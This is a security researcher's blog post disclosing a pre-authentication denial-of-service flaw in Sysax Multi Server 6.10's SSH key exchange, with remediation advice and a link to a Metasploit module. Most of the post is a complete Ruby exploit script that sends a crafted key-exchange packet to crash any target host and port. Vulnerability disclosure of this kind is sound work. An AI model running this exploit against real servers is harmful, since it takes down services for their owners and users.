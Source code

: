 ```yaml
---
layout: post
title: "Sysax Multi Server 6.10 SSH DoS"
date: 2013-04-08T08:27:00-04:00
comments: true
categories:
 - ssh
 - DoS
 - windows
 - sysax
 - exploit
 - metasploit
---
```


I was recently fuzzing a bunch of SSH servers, hoping to find some remote code execution in a non-mainstream server. I ended up finding no code execution in the several that I tried, but I did find one pre-auth denial of service in Syax Multi Server 6.10.

<!-- more -->

## Try this at home!

The vulnerable version can be downloaded [here](https://www.dropbox.com/s/d6js8u6i4eioa1j/sysaxserv_setup_6.10.msi) for anyone that would like to duplicate the DoS conditions.

## Understanding the Key Exchange

I found that during the key exchange, where the SSH client and SSH server negotiate which ciphers to use, if you messed up just a single specific byte, the server would crash. I started reading through the [RFC](https://tools.ietf.org/html/rfc4253#section-7.1) for SSH keyexchange, and found the key exchange to be mostly ASCII.

{% img /images/sysax_ssh_hex.png %}


I started playing with the byte that caused the crash, and it seemed that it was some sort of control character, or separator. I'm still unsure. However, changing it would cause a crash every time.

{% img /images/sysax_ssh_hex2.png %}

I wasn't able to figure out any way to get remote code execution, although someone smarter than me, may be able to do it. For now, I'll settle with a DoS exploit.

## The exploit

```
#!/usr/bin/env ruby
# Sysax Multi Server 6.10 SSH DoS
# Matt "hostess" Andreko < mandreko [at] accuvant.com >
# http://www.mattandreko.com/2013/04/sysax-multi-server-610-ssh-dos.html

require 'socket'

unless ARGV.length == 2
  puts "Usage: ruby #{$0} [host] [port]\n"
  exit
end

packet = [0x00, 0x00, 0x03, 0x14, 0x08, 0x14, 0xff, 0x9f,
  0xde, 0x5d, 0x5f, 0xb3, 0x07, 0x8f, 0x49, 0xa7,
  0x79, 0x6a, 0x03, 0x3d, 0xaf, 0x55, 0x00, 0x00,
  0x00, 0x7e, 0x64, 0x69, 0x66, 0x66, 0x69, 0x65,
  0x2d, 0x68, 0x65, 0x6c, 0x6c, 0x6d, 0x61, 0x6e,
  0x2d, 0x67, 0x72, 0x6f, 0x75, 0x70, 0x2d, 0x65,
  0x78, 0x63, 0x68, 0x61, 0x6e, 0x67, 0x65, 0x2d,
  0x73, 0x68, 0x61, 0x32, 0x35, 0x36, 0x2c, 0x64,
  0x69, 0x66, 0x66, 0x69, 0x65, 0x2d, 0x68, 0x65,
  0x6c, 0x6c, 0x6d, 0x61, 0x6e, 0x2d, 0x67, 0x72,
  0x6f, 0x75, 0x70, 0x2d, 0x65, 0x78, 0x63, 0x68,
  0x61, 0x6e, 0x67, 0x65, 0x2d, 0x73, 0x68, 0x61,
  0x31, 0x2c, 0x64, 0x69, 0x66, 0x66, 0x69, 0x65,
  0x2d, 0x68, 0x65, 0x6c, 0x6c, 0x6d, 0x61, 0x6e,
  0x2d, 0x67, 0x72, 0x6f, 0x75, 0x70, 0x31, 0x34,
  0x2d, 0x73, 0x68, 0x61, 0x31, 0x2c, 0x64, 0x69,
  0x66, 0x66, 0x69, 0x65, 0x2d, 0x68, 0x65, 0x6c,
  0x6c, 0x6d, 0x61, 0x6e, 0x2d, 0x67, 0x72, 0x6f,
  0x75, 0x70, 0x31, 0x2d, 0x73, 0x68, 0x61, 0x31,
  0x00, 0x00, 0x00, 0x0f, 0x73, 0x73, 0x68, 0x2d,
  0x72, 0x73, 0x61, 0x2c, 0x73, 0x73, 0x68, 0x2d,
  0x64, 0x73, 0x73, 0x00, 0x00, 0x00, 0x9d, 0x61,
  0x65, 0x73, 0x31, 0x32, 0x38, 0x2d, 0x63, 0x62,
  0x63, 0x2c, 0x33, 0x64, 0x65, 0x73, 0x2d, 0x63,
  0x62, 0x63, 0x2c, 0x62, 0x6c, 0x6f, 0x77, 0x66,
  0x69, 0x73, 0x68, 0x2d, 0x63, 0x62, 0x63, 0x2c,
  0x63, 0x61, 0x73, 0x74, 0x31, 0x32, 0x38, 0x2d,
  0x63, 0x62, 0x63, 0x2c, 0x61, 0x72, 0x63, 0x66,
  0x6f, 0x75, 0x72, 0x31, 0x32, 0x38, 0x2c, 0x61,
  0x72, 0x63, 0x66, 0x6f, 0x75, 0x72, 0x32, 0x35,
  0x36, 0x2c, 0x61, 0x72, 0x63, 0x66, 0x6f, 0x75,
  0x72, 0x2c, 0x61, 0x65, 0x73, 0x31, 0x39, 0x32,
  0x2d, 0x63, 0x62, 0x63, 0x2c, 0x61, 0x65, 0x73,
  0x32, 0x35, 0x36, 0x2d, 0x63, 0x62, 0x63, 0x2c,
  0x72, 0x69, 0x6a, 0x6e, 0x64, 0x61, 0x65, 0x6c,
  0x2d, 0x63, 0x62, 0x63, 0x40, 0x6c, 0x79, 0x73,
  0x61, 0x74, 0x6f, 0x72, 0x2e, 0x6c, 0x69, 0x75,
  0x2e, 0x73, 0x65, 0x2c, 0x61, 0x65, 0x73, 0x31,
  0x32, 0x38, 0x2d, 0x63, 0x74, 0x72, 0x2c, 0x61,
  0x65, 0x73, 0x31, 0x39, 0x32, 0x2d, 0x63, 0x74,
  0x72, 0x2c, 0x61, 0x65, 0x73, 0x32, 0x35, 0x36,
  0x2d, 0x63, 0x74, 0x72, 0x00, 0x00, 0x00, 0x9d,
  0x61, 0x65, 0x73, 0x31, 0x32, 0x38, 0x2d, 0x63,
  0x62, 0x63, 0x2c, 0x33, 0x64, 0x65, 0x73, 0x2d,
  0x63, 0x62, 0x63, 0x2c, 0x62, 0x6c, 0x6f, 0x77,
  0x66, 0x69, 0x73, 0x68, 0x2d, 0x63, 0x62, 0x63,
  0x2c, 0x63, 0x61, 0x73, 0x74, 0x31, 0x32, 0x38,
  0x2d, 0x63, 0x62, 0x63, 0x2c, 0x61, 0x72, 0x63,
  0x66, 0x6f, 0x75, 0x72, 0x31, 0x32, 0x38, 0x2c,
  0x61, 0x72, 0x63, 0x66, 0x6f, 0x75, 0x72, 0x32,
  0x35, 0x36, 0x2c, 0x61, 0x72, 0x63, 0x66, 0x6f,
  0x75, 0x72, 0x2c, 0x61, 0x65, 0x73, 0x31, 0x39,
  0x32, 0x2d, 0x63, 0x62, 0x63, 0x2c, 0x61, 0x65,
  0x73, 0x32, 0x35, 0x36, 0x2d, 0x63, 0x62, 0x63,
  0x2c, 0x72, 0x69, 0x6a, 0x6e, 0x64, 0x61, 0x65,
  0x6c, 0x2d, 0x63, 0x62, 0x63, 0x40, 0x6c, 0x79,
  0x73, 0x61, 0x74, 0x6f, 0x72, 0x2e, 0x6c, 0x69,
  0x75, 0x2e, 0x73, 0x65, 0x2c, 0x61, 0x65, 0x73,
  0x31, 0x32, 0x38, 0x2d, 0x63, 0x74, 0x72, 0x2c,
  0x61, 0x65, 0x73, 0x31, 0x39, 0x32, 0x2d, 0x63,
  0x74, 0x72, 0x2c, 0x61, 0x65, 0x73, 0x32, 0x35,
  0x36, 0x2d, 0x63, 0x74, 0x72, 0x00, 0x00, 0x00,
  0x69, 0x68, 0x6d, 0x61, 0x63, 0x2d, 0x6d, 0x64,
  0x35, 0x2c, 0x68, 0x6d, 0x61, 0x63, 0x2d, 0x73,
  0x68, 0x61, 0x31, 0x2c, 0x75, 0x6d, 0x61, 0x63,
  0x2d, 0x36, 0x34, 0x40, 0x6f, 0x70, 0x65, 0x6e,
  0x73, 0x73, 0x68, 0x2e, 0x63, 0x6f, 0x6d, 0x2c,
  0x68, 0x6d, 0x61, 0x63, 0x2d, 0x72, 0x69, 0x70,
  0x65, 0x6d, 0x64, 0x31, 0x36, 0x30, 0x2c, 0x68,
  0x6d, 0x61, 0x63, 0x2d, 0x72, 0x69, 0x70, 0x65,
  0x6d, 0x64, 0x31, 0x36, 0x30, 0x40, 0x6f, 0x70,
  0x65, 0x6e, 0x73, 0x73, 0x68, 0x2e, 0x63, 0x6f,
  0x6d, 0x2c, 0x68, 0x6d, 0x61, 0x63, 0x2d, 0x73,
  0x68, 0x61, 0x31, 0x2d, 0x39, 0x36, 0x2c, 0x68,
  0x6d, 0x61, 0x63, 0x2d, 0x6d, 0x64, 0x35, 0x2d,
  0x39, 0x36, 0x00, 0x00, 0x00, 0x69, 0x68, 0x6d,
  0x61, 0x63, 0x2d, 0x6d, 0x64, 0x35, 0x2c, 0x68,
  0x6d, 0x61, 0x63, 0x2d, 0x73, 0x68, 0x61, 0x31,
  0x2c, 0x75, 0x6d, 0x61, 0x63, 0x2d, 0x36, 0x34,
  0x40, 0x6f, 0x70, 0x65, 0x6e, 0x73, 0x73, 0x68,
  0x2e, 0x63, 0x6f, 0x6d, 0x2c, 0x68, 0x6d, 0x61,
  0x63, 0x2d, 0x72, 0x69, 0x70, 0x65, 0x6d, 0x64,
  0x31, 0x36, 0x30, 0x2c, 0x68, 0x6d, 0x61, 0x63,
  0x2d, 0x72, 0x69, 0x70, 0x65, 0x6d, 0x64, 0x31,
  0x36, 0x30, 0x40, 0x6f, 0x70, 0x65, 0x6e, 0x73,
  0x73, 0x68, 0x2e, 0x63, 0x6f, 0x6d, 0x2c, 0x68,
  0x6d, 0x61, 0x63, 0x2d, 0x73, 0x68, 0x61, 0x31,
  0x2d, 0x39, 0x36, 0x2c, 0x68, 0x6d, 0x61, 0x63,
  0x2d, 0x6d, 0x64, 0x35, 0x2d, 0x39, 0x36, 0x00,
  #3rd byte in this next line causes crash
  0x00, 0x00, 0x28, 0x7a, 0x6c, 0x69, 0x62, 0x40,
  0x6f, 0x70, 0x65, 0x6e, 0x73, 0x73, 0x68, 0x2e,
  0x63, 0x6f, 0x6d, 0x2c, 0x7a, 0x6c, 0x69, 0x62,
  0x2c, 0x6e, 0x6f, 0x6e, 0x65, 0x00, 0x00, 0x00,
  0x1a, 0x7a, 0x6c, 0x69, 0x62, 0x40, 0x6f, 0x70,
  0x65, 0x6e, 0x73, 0x73, 0x68, 0x2e, 0x63, 0x6f,
  0x6d, 0x2c, 0x7a, 0x6c, 0x69, 0x62, 0x2c, 0x6e,
  0x6f, 0x6e, 0x65, 0x00, 0x00, 0x00, 0x00, 0x00,
  0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
  0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00].pack("C*")

host = ARGV[0]
port = ARGV[1]

sock = TCPSocket.open(host, port)

banner = sock.gets()
puts banner

sock.puts("SSH-2.0-OpenSSH_5.1p1 Debian-5ubuntu1\r\n")
sock.puts(packet)
resp = sock.gets()

sock.close()
```

## Remediation

I contacted the developers of Sysax Multi Server on March 18 2013 and April 6 2013. They were able to release a new version (6.11) which is no longer vulnerable to this bug. If you're running Sysax Multi Server with SSH (off by default, but plenty of users on [ShodanHQ](http://www.shodanhq.com/search?q=sysax+port%3A22)), I would highly recommend updating to 6.11, available [here](http://www.sysax.com/download.htm#sysaxserv).

## Update:

It looks like the Metasploit module I wrote for this has been merged! You can view it [here](https://github.com/rapid7/metasploit-framework/blob/225342ce8f34b1af49e498c0cc6fa92c127187e8/modules/auxiliary/dos/windows/ssh/sysax_sshd_kexchange.rb)
